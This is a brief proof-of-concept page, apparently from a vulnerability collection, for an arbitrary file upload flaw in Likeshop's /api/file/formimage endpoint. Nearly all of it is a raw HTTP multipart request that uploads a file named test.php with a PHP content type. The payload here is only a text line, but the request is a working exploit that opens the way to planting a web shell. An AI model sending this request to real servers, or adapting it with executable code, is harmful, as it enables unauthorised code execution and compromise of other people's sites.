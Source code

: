 ## Likeshop-formimage任意文件上传

![image](https://github.com/user-attachments/assets/cd801771-51cf-4900-be53-8ef3acdebfd3)

## poc
```
POST /api/file/formimage HTTP/2
Host: x.x.x.
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Content-Length: 201
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygcflwtei
Accept-Encoding: gzip, deflate

------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; name="file";filename="test.php"
Content-Type: application/x-php

This page has a vulnerability!
------WebKitFormBoundarygcflwtei--
```
